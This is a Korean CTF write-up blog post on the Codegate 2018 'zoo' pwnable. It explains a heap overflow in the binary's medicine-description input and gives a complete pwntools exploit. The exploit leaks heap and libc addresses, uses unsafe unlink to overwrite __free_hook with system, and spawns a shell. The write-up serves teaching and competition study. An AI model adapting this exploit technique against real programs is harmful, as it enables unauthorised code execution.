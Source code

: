```yaml
---
layout:     post
title:      "Codegate 2018 zoo write-up"
subtitle:   "codegate 2018 prequals pwnable"
date:       2018-02-15
author:     "NextLine"
header-img: "img/post-bg-1.png"
tags:
    - WriteUp
---
```


# Codegate 2018 prequals zoo write-up

### 1. Intro

unsafe ulink에 대한 이해도를 높이는데 많은 도움을 주었다.



### 2. Binary

```
-----------* My Own Zoo *-----------
[1] Adopt an animal
[2] Feed an animal
[3] Clean an amimal house
[4] Take a walk with an animal
[5] Take an animal to the hospital
[6] List animal info
[7] Close the zoo
------------------------------------
```

위와 같이 7개의 메뉴로 이루어져 있다.

1. Adopt an animal
   - 동물을 입양시킨다. (name, type)
2. Feed an animal
   - 동물에게 음식을 주거나 약을 준다.
   - 음식을 주면 food chunk를 할당하며, 간간히 dung chunk도 할당한다.
   - 약을 줄때에는 동물이 병에 걸려 의사에게 약 처방을 받았을 때이며, 약의 정보를 입력한다. (name, description)
3. Clean an animal
   - 동물의 dung chunk를 free한다.
4. Take a walk
   - 동물의 food chunk를 free한다.
   - 만약 동물이 food나 medicine이 아닌 다른걸 가지고있다면, 그곳에 주인의 메세지를 남길 수 있다.
5. Take an animal to the hospital
   - 동물의 dung chunk를 5개 free한다.
   - 만약 그 이후에도 dung chunk가 5개 이상이라면 약을 처방한다.
6. List animal info
   - 동물의 상태를 보여준다. (Name, Species, Likes, Get Food, Get Dung, healthy info)
7. Close the zoo
   - 프로그램을 종료한다.



### 3. Vulnerability

```c
      ...		
      puts("------------------------------------");
      printf("[+] Your animal %s is ill now. :(\n", *&a1->name[8 * (animal_idx + 2LL)] + 4LL);
      puts("[+] You can only feed medicines to your animal.");
      printf("[+] Please tell me the name of this medicine\n>> ");
      read(0, (*(*&a1->name[8 * (animal_idx + 2LL)] + 8 * (food_cnt + 2LL) + 8) + 16LL), 8uLL);
      printf("[+] Please tell me a description of this medicine\n>> ");
      read(0, (*(*&a1->name[8 * (animal_idx + 2LL)] + 8 * (food_cnt + 2LL) + 8) + 24LL), 0x78uLL);// heap_overflow
      
      ...
```

동물에게 약을 처방할때 heap overflow가 발생하여 다음 chunk 의 prev_size와 size를 덮을 수 있다.<br>또한 이름을 입력하고 그뒤에 바로 food_chunk가 할당되어, 이름을 출력할때 heap_leak을 얻을 수 있다.



### 4. Exploit

Unsafe Unlink를 heap chunk를 대상으로 해주면 된다. 그러면 4번의 메뉴로 animal structure를 overwrite하여 arbitrary read/write가 가능하다.

```python
from pwn import *

s = process('./zoo')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def adopt(idx,name):
	s.sendlineafter('>> ', '1')
	s.sendlineafter('>> ', idx)
	s.sendafter('>> ', name)

def feed(name):
	s.sendlineafter('>> ', '2')
	s.sendafter('>> ', name)

def feed_medi(name,medi_name,description):
	s.sendlineafter('>> ', '2')
	s.sendafter('>> ', name)
	s.sendafter('>> ', medi_name)
	s.sendafter('>> ', description)

def clean(name):
	s.sendlineafter('>> ', '3')
	s.sendafter('>> ', name)

def walk(name):
	s.sendlineafter('>> ', '4')
	s.sendafter('>> ', name)

def hospital(name):
	s.sendlineafter('>> ', '5')
	s.sendafter('>> ', name)

def a_list(name):
	s.sendlineafter('>> ', '6')
	s.sendafter('>> ', name)


s.sendlineafter('>> ', '/bin/sh')

adopt('1','A' * 20)
feed('A' * 20)
s.recvuntil('A' * 20)
heap = u64(s.recv(6) + "\x00" * 2)
target = heap - 0x6a8 + 0x8
log.info("HEAP : " + hex(heap))
log.info("TARGET : " + hex(target))

adopt('1','A' * 10)
for _ in xrange(20):
	feed('A' * 10)
for _ in xrange(20):
	walk('A' * 10)
for _ in xrange(20):
	feed('A' * 10)
for _ in xrange(20):
	walk('A' * 10)

payload = p64(target - 0x18)
payload2 = p64(target - 0x10)
payload2 += '\x00' * 0x60 + p64(0x80) + p64(0x90)

hospital('A' * 10)
adopt('1','A' * 5)

for _ in xrange(1):
	for _ in xrange(20):
		feed('A' * 5)
	for _ in xrange(20):
		walk('A' * 5)
for _ in xrange(8):
	clean('A' * 5)

clean('A' * 10)
feed_medi('A' * 10,'NEXTLINE','NEXTLINE')
feed('A' * 5)
feed_medi('A' * 10, payload , payload2)

for _ in xrange(2):
	clean('A' * 10)

walk('A' * 10)
payload3 = p64(target+0xe80)
payload3 += p64(target+0x1150)
payload3 += p64(target-0x210) # /bin/sh
payload3 += p64(target+0x60)
payload3 += p64(target+0x70)
s.sendafter('>> ',payload3)

s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ',p64(0x0) * 2 + p64(target+0x970))

a_list('A' * 10)
s.recvuntil('[-] Species : ')
libc = u64(s.recv(6) + "\x00" *2) - 1176 - l.symbols['__malloc_hook']
log.info("LIBC : " + hex(libc))

walk('A' * 10)
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ',p64(0) + p64(libc + l.symbols['__free_hook']-0x18))
s.sendafter('>> ','\x00')

walk('A' * 10)
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ','\x00')
s.sendafter('>> ',p64(libc + l.symbols['system']))

walk('A' * 10)
s.interactive()
```
